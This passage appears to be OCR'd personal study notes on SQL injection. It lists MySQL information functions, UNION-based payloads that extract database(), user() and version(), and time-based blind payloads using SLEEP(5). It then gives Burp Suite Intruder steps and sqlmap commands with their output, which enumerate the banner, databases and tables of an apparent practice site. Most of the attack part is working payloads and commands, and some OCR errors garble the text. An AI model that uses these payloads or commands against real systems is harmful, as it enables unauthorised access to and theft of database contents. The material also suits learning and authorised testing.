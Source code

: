 	COLLATION():Return the collation of the string argument
	CONNECTION_ID():Return the connection ID (thread ID) for the connection
	CURRENT_ROLE():Return the current active roles
	CURRENT_USER(), CURRENT_USER: The authenticated user name and host name
	FOUND_ROWS():For a SELECT with a LIMIT clause, the number of rows that would be returned were there no LIMIT clause
	ICU_VERSION():ICU library version
	LAST_INSERT_ID():Value of the AUTOINCREMENT column for the last INSERT
	ROLES_GRAPHML():Return a GraphML document representing memory role subgraphs
	ROW_COUNT():The number of rows updated
	SCHEMA():Synonym for DATABASE()
	SESSION_USER():Synonym for USER()
	SYSTEM_USER():Synonym for USER()
•	Put functions in the vulnerable column.
o	artist=-1+UNION+SELECT+1,database(),user()+--+
o	artist=-1+UNION+SELECT+1,user(),version()+--+

o	Blind SQL Injection
	When not able to detect or not giving an error after putting some values.
	How to detect
•	OR SLEEP(seconds) (query to delay page response)
•	artist=1+OR+SLEEP(5)--+
•	1+or+sleep(5)#
•	It will delay the page response by 5 sec
•	It will work in Time Blind, Boolean, error, blind, it will work in every case. 
	1 sec = 1000 Millisecond
•	In the right bottom corner.
	Intruder (Use in BurpSuit)
•	Send to Intruder > Clear S > select payload position >
•	Payloads > Paste (payload list) > Put space in Payload Encoding >
•	Start attack

•	Exploit SQL injection with Kali | SQLmap
o	Havij tool for windows
o	Copy Request Code of vulnerable page and put the * where we want to taste the SQL Injection.
	GET /artists.php?artist=1* HTTP/1.1
o	In Kali, create the sql.txt file for code
o	sqlmap -r sql.txt –banner
o	sqlmap -u test.php.com/artists.php?artist=1 -b
•	to test SQL Injection in given file.
	web server operating system: Linux Ubuntu
	web application technology: PHP 5.6.40, Nginx 1.19.0
	back-end DBMS operating system: Linux Ubuntu
	back-end DBMS: MySQL >= 5.0.12
	banner: '8.0.22-0ubuntu0.2Ø.04.2'
o	sqlmap -r sql.txt -dbs
•	to get databases
	available databases [2]:
	[*] acuart
	[*] information_schema
o	sqlmap -r sql.txt -D acuart –tables
•	used to dig into found databases.
	Database: acuart
	[8 tables]
	+-----------+
	| artists   |
	| carts     |
	| categ     |
	| featured  |
	| guestbook |
	| pictures  |
	| products  |
	| users     |
	+-----------+